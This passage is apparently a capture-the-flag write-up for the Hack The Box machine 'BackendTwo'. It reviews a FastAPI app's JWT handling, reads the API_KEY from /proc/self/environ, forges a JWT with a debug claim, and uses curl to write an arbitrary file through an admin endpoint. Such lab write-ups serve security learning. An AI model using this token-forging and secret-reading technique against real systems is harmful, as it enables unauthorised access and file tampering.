 ```python
    BACKEND_CORS_ORIGINS: List[AnyHttpUrl] = []

    @validator("BACKEND_CORS_ORIGINS", pre=True)
    def assemble_cors_origins(cls, v: Union[str, List[str]]) -> Union[List[str], str]:
        if isinstance(v, str) and not v.startswith("["):
            return [i.strip() for i in v.split(",")]
        elif isinstance(v, (list, str)):
            return v
        raise ValueError(v)

    SQLALCHEMY_DATABASE_URI: Optional[str] = "sqlite:///uhc.db"
    FIRST_SUPERUSER: EmailStr = "root@ippsec.rocks"

    class Config:
        case_sensitive = True


settings = Settings()
```

Review Summary:

- JWT is encoded by [python-jose](https://github.com/mpdavis/python-jose).
- JWT algorithm is HS256.
- JWT is encoded with the `API_KEY` environment variable as a key.
- If JWT has a payload `debug`, I can write files with the POST `/api/v1/admin/file/{file_name}` endpoint.

### Encode JWT with Debug key

Having The `API_KEY` environment variable, I generate JWT in kali machines and insert arbitrary payload claim.
The environment variable can be obtained from `/proc/self/environ`.

/proc/self/environ

```text
USER=htbHOME=/home/htbOLDPWD=/PORT=80LOGNAME=htbJOURNAL_STREAM=9:18867APP_MODULE=app.main:appPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binINVOCATION_ID=249b46476fca4ad18c5fca3dff9485d9LANG=C.UTF-8API_KEY=68b329da9893e34099c7d8ad5cb9c940HOST=0.0.0.0PWD=/home/htb
```

Got `API_KEY=68b329da9893e34099c7d8ad5cb9c94`.
Refering to `/home/htb/app/core/auth.py`, I implement script encode_jwt.py.

<details><summary>encode_jwt.py</summary></details>

The `sub` and `guid` are user-specific values.

<details><summary>In this case, They are `12`, `9e901212-05af-42e4-aa9c-5d8ceb43dec8` respectively.</summary></details>

Executing this script to generate JWT and request POST `/api/v1/admin/file/{file_name}` endpoint.

```console
root@kali:~/htb/Machines/BackendTwo# python3 encode_jwt.py
eyJ(snip)stc

root@kali:~/htb/Machines/BackendTwo# TOKEN=eyJ(snip)stc

root@kali:~/htb/Machines/BackendTwo# echo -ne '/home/htb/test.txt' | base64
L2hvbWUvaHRiL3Rlc3QudHh0

root@kali:~/htb/Machines/BackendTwo# curl -X POST -s -H "Authorization: Bearer $TOKEN" http://backendtwo.htb/api/v1/admin/file/L2hvbWUvaHRiL3Rlc3QudHh0 -H "Content-Type: application/json" -d '{"file":"pwn"}'
{"result":"success"}

```